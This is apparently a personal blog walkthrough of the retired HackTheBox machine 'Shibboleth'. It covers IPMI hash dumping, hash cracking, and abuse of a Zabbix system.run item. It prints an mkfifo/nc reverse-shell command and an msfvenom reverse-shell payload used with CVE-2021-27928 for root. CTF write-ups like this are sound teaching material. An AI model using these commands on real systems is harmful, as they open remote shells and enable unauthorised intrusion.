 ```yaml
---
title: "HackTheBox: \"Shibboleth\" Walkthrough"
date: 2022-04-22
tags: ['hackthebox', 'ctf']
slug: "hackthebox-shibboleth-walkthrough"
categories: ["HackTheBox Walkthrough"]
sidebar: false
draft: false
---
```


This is my first walkthrough for a HackTheBox machine. It's not the first
machine I've done, though. But as Shibboleth is now "retired", it is allowed
to publish walkthroughs. I have decided not to publish any passwords,
because that would spoil the fun (and not add anything in terms of learning).
I'll rather focus on my chain of thought to go through this challenge.<!--more-->

## Foothold

The very first scan on every machine I do is a port scan using nmap. Depending on
the results, I continue to directory and/or vhost (subdomain) scanning.

First an nmap scan only reveals `80/tcp` as an open port. I have yet to encounter a machine
where this port is not open, as every machine has some kind of "landing page".
In this case, where a tcp port scan does not reveal anything interesting,
it's not a bad idea to also scan udp ports:

```plain
Discovered open port 623/udp on 10.10.11.124
```

Now that's something! A quick search reveals that `623/udp` is the default port for IPMI,
which is some kind of remote management interface.

Searching a bit further, we find common vulnerabilities for IPMI. One that
sounds especially promising is dumping the hashes. Conveniently, the metasploit framework
comes with a payload for this task.

```plain
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25b6d5c382010...
```

When obtaining a hash, and it's an "insecure" one (that is, not bcrypt or similar),
I put it into hashcat right away. In this case, we need to pick the right
hash type. My hashcat version suggested three, and `-m 7300` is the correct one in this case.
I'm using the "rockyou" wordlist, which also yields a result in this case.

Now we have a username and password, but what next? I tried playing around
with IPMI a bit more - there seem to be ways to get a reverse shell, but those
were not working with this IPMI instance.

But, we are also not done with scanning! Let's scan for vhosts next:

```plain
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
```

Again, this looks promising. All vhosts point to the same Zabbix instance.
Let's login with the credentials we obtained earlier!

## User

We now have adminisrator access to Zabbix. The installed Zabbix version 5.0.17
does not have any known vulnerability. But, Zabbix is a monitoring software
and as such for sure has the capability to execute commands on the machines
it is monitoring. Time to RTFM :scream:

Under *Configuration > Items > Item types > Zabbix agent* we will find:
> `system.run[command,<mode>]` - Run specified command on the host.

Exactly what we are looking for! Note that this seems to be an intentional
misconfiguration on this machine, because the docs also say:

> All `system.run[*]` items (remote commands, scripts) are disabled by default, even when no deny keys are specified


We now know that we can create an "Item" for the `shibboleth.htb` host in
the Zabbix UI.
I tried a lot of different reverse shell commands until I finally found one which
was working in this context:

```plain
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f,nowait]
```

Click on *Test > Get Value and Test*. We now have a reverse shell for user `zabbix`.


```plain
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc

```

We also see the only entry in `/home` is for user `ipmi-svc`, so we now have to escalate to this
user. We *do* have a password, so try the straight-forward way:

```plain
$ su ipmi-svc
Password: <password>
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Done - we can read the user flag!

## Root

Our next step is to gain root access. If there is no obvious way forward,
running LinPEAS usually gives us a hint: On this machine, there is a config
file `/etc/zabbix/zabbix_server.conf`, which is owned by root - and readable by the current user!
In this file, we will find credentials for a database server. Let's try them out:


```plain
$ mysql -u zabbix -p<password> zabbix

MariaDB [zabbix]> select version();
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

Looking up vulnerabilities for this MariaDB version leads to `CVE-2021-27928`.
We can use metasploit again, this time to build a payload:

```plain
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4242 -f elf-so -o payload.so
```

Connect to the MariaDB server, execute the payload:

```plain
mysql -u zabbix -p<password> -e 'SET GLOBAL wsrep_provider="/tmp/payload.so";'
```

## Conclusion and Learnings

I really liked the Shibboleth machine. Probably because it wasn't "the usual
web stuff". Most of the time I needed was to understand
how Zabbix works, and then to get the reverse shell working. This is also
a key learning for me: If you "know" you are on the right track, but it's
not working, try another way. This machine was the first time I used
(and needed) a "mkfifo reverse shell". Furthermore, I learned about `msfvenom`.